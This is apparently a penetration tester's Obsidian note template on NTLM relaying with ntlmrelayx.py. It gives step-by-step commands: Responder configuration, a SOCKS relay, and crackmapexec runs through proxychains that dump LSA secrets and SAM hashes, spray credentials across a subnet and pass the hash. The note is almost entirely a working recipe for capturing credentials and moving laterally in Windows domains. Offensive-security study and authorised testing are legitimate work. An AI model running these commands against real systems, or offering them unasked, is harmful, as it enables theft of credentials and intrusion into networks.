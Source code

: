 ```yaml
---
creation date: September 8th 2022
last modified date: September 8th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[ntlmrelayx.py]]  
___

## Socks Proxy Relaying

Configure Responder with `SMB` and `HTTP` turned off in `/etc/responder/Responder.conf`

``````
[Responder Core]

; Servers to start
SQL = On
SMB = Off
RDP = On 
Kerberos = On
FTP = On 
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On  
LDAP = On
``````

````
sudo responder -I eth0 -w
````


Make sure /etc/proxychains.conf is configured to use port 1080


``````

sudo python3 ntlmrelayx.py -tf ~/Desktop/targets -socks -smb2support

``````

type `socks` into our relay prompt to see the active connections available.

Look for a connection that has AdminStatus set to true.

Use proxychains with crackmapexec to use these sessions. The password we provide is arbitrary since the SOCKS proxy is going to use the session we gained from relaying auth previously. The IP and user should come from the output of running socks in ntlmrelayx.py.

`proxychains cme smb 10.1.1.206 -u user -p pass -d Domain --lsa

Using the --lsa will dump hashes and clear text passwords from registry secrets. Using --sam will obtain local account hashes.

Validate any clear text passwords or hashes that were cracked work using crackmapexec. 

`proxychains cme smb 10.1.1.1/24 -u user -p pass -d Domain


You can also passthehash with crackmapexec.


`proxychains cme smb 10.1.1.1/24 -u user -H hashgoeshere -d Domain


You can use bloodhound to see if those accounts have local admin on any other machine and dump lsa and sam from them. 

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 8th 2022 (10:12 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
